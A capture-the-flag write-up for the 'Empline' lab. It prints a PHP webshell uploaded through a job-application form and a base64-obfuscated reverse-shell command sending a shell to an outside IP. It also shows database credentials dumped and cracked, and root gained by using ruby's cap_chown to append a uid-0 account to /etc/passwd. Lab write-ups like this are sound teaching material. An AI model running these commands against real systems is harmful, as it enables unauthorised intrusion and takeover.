## TL;DR

In this challenge we upload php `webshell`, and get shell as `www-data`.

Next, we find the hash of user `george` inside the local `mysql` serivce, and crack it.

Lastly, we exploit `cap_chown` on `ruby` to append our new user into `/etc/passwd` and get root shell as `elicotper`

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh, port `80` with apache http server and port `3306` with mysql.
```bash
PORT     STATE SERVICE REASON         VERSION                                                                                                                                                
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                           
| ssh-hostkey:                                                                                                                                                                               
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)                                                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDR9CEnxhm89ZCC+SGhOpO28srSTnL5lQtnqd4NaT7hTT6N1NrRZQ5DoB6cBI+YlaqYe3I4Ud3y7RF3ESms8L21hbpQus2UYxbWOl+/s3muDpZww1nvI5k9oJguQaLG1EroU8tee7yhPID0+285jbk5AZY72pc7NLOMLvFDijArOhj9kIcsPLVTaxzQ6Di+xwXYdiKO0F3Y7GgMMSszIeigvZEDhNnNW0Z1puMYbtTgmvJH6LpzMSEC+32iNRGlvbjebE9Ehh+tGiOuHKXT1uexrt7gbkjp3lJteV5034a7G1t/Vi3JJoj9tMV/CrvgeDDncbT5NNaSA6/ynLLENqSP
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFhf+BTt0YGudpgOROEuqs4YuIhT1ve23uvZkHhN9lYSpK9WcHI2K5IXIi+XgPeSk/VIQLsRUA0kOqbsuoxN+u0=
|   256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDkr5yXgnawt7un+3Tf0TJ+sZTrbVIY0TDbitiu2eHpf
80/tcp   open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Empline
3306/tcp open  mysql   syn-ack ttl 62 MariaDB 5.5.5-10.1.48
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 87
|   Capabilities flags: 63487
|   Some Capabilities: IgnoreSigpipes, Speaks41ProtocolOld, SupportsTransactions, LongPassword, IgnoreSpaceBeforeParenthesis, LongColumnFlag, SupportsCompression, FoundRows, Support41Auth, DontAllowDatabaseTableColumn, InteractiveClient, Speaks41ProtocolNew, SupportsLoadDataLocal, ODBCClient, ConnectWithDatabase, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: +7tduB(ANFQFK'|]>\7:
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `empline.thm` to our `/etc/hosts`.

### Upload webshell and achieve shell as www-data

When manually exploring the website, we can find the subdomain `job.empline.thm`, let's add it too to our `/etc/hosts`.

after some navigation, i've found this `http://job.empline.thm/careers/index.php?m=careers&p=applyToJob&ID=1`



Here we can apply to job and upload our CV, let's create the `webshell.php`:
```bash
echo -e '<?php system($_GET[0]) ?>' > webshell.php
```

and now upload it, at `http://job.empline.thm/careers/index.php?m=careers&p=onApplyToJobOrder`.



Using `ffuf` I've found the folder `upload`:
```bash
┌──(agonen㉿kali)-[~/thm/Empline]
└─$ ffuf -u 'http://job.empline.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -e .php,.xml,.txt -fc 403                                        

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://job.empline.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Extensions       : .php .xml .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

ajax.php                [Status: 200, Size: 140, Words: 13, Lines: 6, Duration: 376ms]
ajax                    [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 377ms]
attachments             [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 414ms]
careers                 [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 415ms]
ckeditor                [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 381ms]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 410ms]
constants.php           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 405ms]
db                      [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 398ms]
images                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 411ms]
index.php               [Status: 200, Size: 3671, Words: 209, Lines: 102, Duration: 396ms]
index.php               [Status: 200, Size: 3671, Words: 209, Lines: 102, Duration: 446ms]
javascript              [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 371ms]
js                      [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 384ms]
lib                     [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 411ms]
modules                 [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 410ms]
rss                     [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 373ms]
scripts                 [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 379ms]
src                     [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 416ms]
temp                    [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 410ms]
test                    [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 411ms]
upload                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 405ms]
vendor                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 404ms]
wsdl                    [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 416ms]
xml                     [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 432ms]
```

we can go there, and find our `webshell.php`:



and here we can find the webshell, waiting for us `http://job.empline.thm/upload/careerportaladd/`.



we can try `http://job.empline.thm/upload/careerportaladd/webshell.php?0=id` for example, and check it works:



now, let's paste the payload from `penelope`:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```



### Move to george using hash we find inside opencats db

we can find the file `config.php`, which contains the credentials for the `mysql` service:
```bash
www-data@empline:/var/www/opencats$ cat config.php                                                                                            
 <REDACTED>                            

/* License key. */                                                            
define('LICENSE_KEY','3163GQ-54ISGW-14E4SHD-ES9ICL-X02DTG-GYRSQ6');                                                                                          

/* Database configuration. */                                                 
define('DATABASE_USER', 'james');                                             
define('DATABASE_PASS', 'ng6pUFvsGNtw');                                      
define('DATABASE_HOST', 'localhost');                                         
define('DATABASE_NAME', 'opencats');
```

Okay, let's login to the mysql service, to user `james` with the password `ng6pUFvsGNtw`:
```bash
mysql -u james -p
```

Next, we can find the database `opencats`:
```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| opencats           |
+--------------------+
2 rows in set (0.00 sec)
```

We can find the table `user` at the db `opencats`:
```bash
MariaDB [opencats]> show tables;                                                                                                                                                             
+--------------------------------------+                                                                                                                                                     
| Tables_in_opencats                   |                                                                                                                                                     
+--------------------------------------+                                                                                                                                                     
| access_level                         |                                                                                                                                                     
| activity                             |                                                                                                                                                     
| activity_type                        |                                                                                                                                                     
| attachment                           |                                                                                                                                                     
| calendar_event                       |                                                                                                                                                     
| calendar_event_type                  |                                                                                                                                                     
| candidate                            |                                                                                                                                                     
| candidate_joborder                   |                                                                                                                                                     
| candidate_joborder_status            |                                                                                                                                                     
| candidate_joborder_status_history    |                                                                                                                                                     
| candidate_jobordrer_status_type      |
| candidate_source                     |
| candidate_tag                        |
| career_portal_questionnaire          |
| career_portal_questionnaire_answer   |
| career_portal_questionnaire_history  |
| career_portal_questionnaire_question |
| career_portal_template               |
| career_portal_template_site          |
| company                              |
| company_department                   |
| contact                              |
| data_item_type                       |
| eeo_ethnic_type                      |
| eeo_veteran_type                     |
| email_history                        |
| email_template                       |
| extension_statistics                 |
| extra_field                          |
| extra_field_settings                 |
| feedback                             |
| history                              |
| http_log                             |
| http_log_types                       |
| import                               |
| installtest                          |
| joborder                             |
| module_schema                        |
| mru                                  |
| queue                                |
| saved_list                           |
| saved_list_entry                     |            
| saved_search                         |                   
| settings                             |            
| site                                 |                   
| sph_counter                          |                   
| system                               |                   
| tag                                  |                   
| user                                 |                   
| user_login                           |                   
| word_verification                    |                   
| xml_feed_submits                     |                   
| xml_feeds                            |                           
| zipcodes                             |                   
+--------------------------------------+                           
54 rows in set (0.00 sec)
```

and check for its columns:
```bash
MariaDB [opencats]> show columns from user;
+---------------------------+--------------+------+-----+---------+----------------+
| Field                     | Type         | Null | Key | Default | Extra          |
+---------------------------+--------------+------+-----+---------+----------------+
| user_id                   | int(11)      | NO   | PRI | NULL    | auto_increment |
| site_id                   | int(11)      | NO   | MUL | 0       |                |
| user_name                 | varchar(64)  | NO   |     |         |                |
| email                     | varchar(128) | YES  |     | NULL    |                |
| password                  | varchar(128) | NO   |     |         |                |
| access_level              | int(11)      | NO   | MUL | 100     |                |
| can_change_password       | int(1)       | NO   |     | 1       |                |
| is_test_user              | int(1)       | NO   |     | 0       |                |
| last_name                 | varchar(40)  | NO   | MUL |         |                |
| first_name                | varchar(40)  | NO   | MUL |         |                |
| is_demo                   | int(1)       | YES  |     | 0       |                |
| categories                | varchar(192) | YES  |     | NULL    |                |
| session_cookie            | varchar(256) | YES  |     | NULL    |                |
| pipeline_entries_per_page | int(8)       | YES  |     | 15      |                |
| column_preferences        | longtext     | YES  |     | NULL    |                |
| force_logout              | int(1)       | YES  |     | 0       |                |
| title                     | varchar(64)  | YES  |     |         |                |
| phone_work                | varchar(64)  | YES  |     |         |                |
| phone_cell                | varchar(64)  | YES  |     |         |                |
| phone_other               | varchar(64)  | YES  |     |         |                |
| address                   | text         | YES  |     | NULL    |                |
| notes                     | text         | YES  |     | NULL    |                |
| company                   | varchar(255) | YES  |     | NULL    |                |
| city                      | varchar(64)  | YES  |     | NULL    |                |
| state                     | varchar(64)  | YES  |     | NULL    |                |
| zip_code                  | varchar(16)  | YES  |     | NULL    |                |
| country                   | varchar(128) | YES  |     | NULL    |                |
| can_see_eeo_info          | int(1)       | YES  |     | 0       |                |
+---------------------------+--------------+------+-----+---------+----------------+
28 rows in set (0.00 sec)
```

Now, let's fetch the data:

```bash
MariaDB [opencats]> select user_name,email,password from user;
+----------------+----------------------+----------------------------------+
| user_name      | email                | password                         |
+----------------+----------------------+----------------------------------+
| admin          | admin@testdomain.com | b67b5ecc5d8902ba59c65596e4c053ec |
| cats@rootadmin | 0                    | cantlogin                        |
| george         |                      | 86d0dfda99dbebc424eb4407947356ac |
| james          |                      | e53fbdb31890ff3bc129db0e27c473c9 |
+----------------+----------------------+----------------------------------+
```

Using [https://crackstation.net/](https://crackstation.net/), we managed to crack the hash of `george`.



So, now we can login to ssh using these credentials:
```bash
george:pretonnevippasempre
```



and grab the user flag:
```bash
george@empline:~$ cat user.txt 
91cb89c70aa2e5ce0e0116dab099078e
```

### Privilege Escalation to Root using cap_chown on ruby

I executed linpeas and found `cap_chown` capability on `/usr/local/bin/ruby`
```bash
george@empline:/tmp$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
```



So, it means we can change the ownership of every file using this command:
```bash
ruby -e 'File.chown(0,0,"/tmp/bla")'
```

For example, here we change from `george` to `root`, and back to `george`.



Okay, Let's change the ownership of `/etc/passwd` and add our new user as root user:

First, create the password for user `elicopter`:
```bash
┌──(agonen㉿kali)-[~/thm/Empline]
└─$ openssl passwd elicopter
$1$KbXkpjCo$thsHS0bnNKm23iWmS1F/..
```



So this will be the new line, based on the line of root user:
```bash
elicopter:$1$KbXkpjCo$thsHS0bnNKm23iWmS1F/..:0:0:elicopter:/root:/bin/bash
```

And now, change the ownership, and add the new user:
```bash
ruby -e 'File.chown(1002,1002,"/etc/passwd")'
chmod +w /etc/passwd
echo -e 'elicopter:$1$KbXkpjCo$thsHS0bnNKm23iWmS1F/..:0:0:elicopter:/root:/bin/bash' >> /etc/passwd
```

and lastly, just `su` to `elicopter` with the password `elicopter`:


and grab the root flag:
```bash
root@empline:~# cat /root/root.txt 
74fea7cd0556e9c6f22e6f54bc68f5d5
```